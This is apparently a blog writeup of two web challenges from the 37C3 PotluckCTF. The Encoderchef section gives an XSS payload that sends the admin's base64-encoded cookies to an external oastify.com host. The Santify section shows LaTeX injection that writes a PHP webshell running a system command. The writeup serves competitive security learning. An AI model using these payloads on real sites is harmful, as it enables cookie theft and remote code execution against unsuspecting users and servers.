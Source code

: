 ```yaml
---
layout: post
title: PotluckCTF 37C3 - Challenges/Writeups
categories: [CTF Jeopardy]
tags: [ctf jeopardy,web,cookies,xss,latex,rce]
permalink: /posts/37c3potluckctf
img_path: /images/ctfs/37c3potluckctf/
datafile: 37c3potluckctf
image:
  path: icon.png
---
```


My team participated in the 37C3 PotluckCTF and got one challenge, though I personally got painfully close to another one... The following is a writeup/walkthrough of how each flag was grabbed and the thought process for each.

You can join the Discord community (with more writeups!) [here](https://discord.gg/nFQHHjCmU3).

## web/Encoderchef (161 solves)
Created by: `ntomsic`

> I heard Cyberchef is monitored by GCHQ so I am trying to build my own version. It is still under construction so if you see any problems with the site just send a link to the admin and they will have a look :) // (Flag is in admin cookie)

Our site is a converter of text to various formats, like base64, hex, binary, etc.

![Converter](encoderchef_1.png)

We are also given the source code of the page, aswell as an 'admin' page. This 'admin' page has a URL input for the admin to visit.

![Admin URL Visiting Page](encoderchef_2.png)

If we can find an exploit to steal the admin's cookies (as they said in the description). We get the flag!

```php
$output = "Example output";
if ((isset($_GET["input"]) && !is_null($_GET["input"])) && (isset($_GET["encoding"]) && !is_null($_GET["encoding"]))){
	$input = base64_decode($_GET["input"]);

	if($input === false){
		$output = "Invalid input";
	} else {
		switch ($_GET["encoding"]) {
			case "base64":
				$output = base64_encode($input);
				break;
```
A portion of the code catches my eye, specifically the base64 input. If we can put in a base64 input that decodes to HTML tags, we can cause an XSS!

Payload:

```html
</textarea>
<script>
i=document.createElement("img");
i.src="https://******************************.oastify.com?c="+btoa(document.cookie);
document.body.appendChild(i);
</script>
<textarea>
```

Encoding our payload with Base64 and then URL encoding it, and making a final url gives us this: `http://[url]:31337/?encoding=base64&input=[payload]`

And sending it to the admin, sends us back our Base64 encoded cookies with our flag!

Flag: <mark>flag="potluck{uu_make_me_go_crazy}"</mark>

**Files:** None provided :(

## web/Santify (58 solves)
Created by: `13x1`
> I found this shop that claims to provide ""delivery via reindeer sleigh"". I ordered a few things, but the cards did not arrive on time! Please find out what went wrong.<br>Anyway, check out their web page<br>Note: Any accounts named ADMIN, BOT or similar are regular users and not part of the challenge, please ignore them


**I didn't completely solve this challenge during the CTF, but got painfully close...**

The card creation page is the following:

![Card Creation](santify_1.png)

The header text is of key importance, as it mentions `pdflatex`. LaTeX has some interesting capabilities that are listed nicely on [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/LaTeX Injection).

Injecting some math operation in LaTeX, I try to read a 'flag'...

![LFI Attempt](santify_2.png)

... Fair enough.

I found that we have the capabilites to write files, by doing the following.

```latex
\newwrite\outfile
\openout\outfile=test.log
\write\outfile{test!}
\closeout\outfile
```

Looking at our LaTeX log were given where the files are uploaded, from there we can look at our uploaded file. Cool, now what...

We can't really 'read' the binary as LaTeX isn't very good at handling extended unicode without importing packages, and trying to run the command injection payloads fails as they are using the `-no-shell-escape` flag, which restricts usage of `/write18{cmd}`.

**This part I did not get during the competition.**

What I needed to do was write a PHP webshell, as the website is run on PHP which can be seen in file names in other portions of the site (index.php, send-card.php, render-LaTeX.php, etc.).

```latex
\newwrite\outfile
\openout\outfile=cmd.php
\write\outfile{<?php system("/app/readflag");}
\closeout\outfile
```

Now you visit the endpoint it was uploaded to (`/images/<random guid>/cmd.php`) you will see the flag.

**Files:** None provided :(


## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).

## Unsolved & Challenge Archival
A list of challenges I didn't solve, and the downloads (if provided) to try them for yourself! All challenges are sorted by solve count.
{% assign sortedcategories = site.data.ctfs[page.datafile] | sort: 'name' %}
{% for category in sortedcategories %}
	{% assign solved = 0 %}
	{% for chal in category.chals %}
		{% unless chal.solved %}
			{% assign solved = solved | plus: 1%}
		{% endunless %}
	{% endfor %}
### {{ category.name }} - {{ category.chals.size | minus: solved }}/{{ category.chals.size }} solved
	{% assign sortedchals = category.chals | sort: 'solves' %}
	{% for chal in sortedchals reversed %}
<details markdown="1">
<summary>{%if chal.solved%}✅ {%endif%}{{chal.name}}{%if chal.solves%} - {{chal.solves}} solve{%if chal.solves != 1%}s{%endif%}{%endif%}</summary>
	{%if chal.creator%}
Created by: `{{chal.creator}}`
	{%endif%}
	{%if chal.desc%}
> {{chal.desc}}
	{%endif%}
**Files:** {% if chal.files %}{% for file in chal.files %}[{{ file.name }}]({{ file.url }}) {% endfor %}{% else %}None provided :({% endif %}
</details>
	{% endfor %}
{% endfor %}
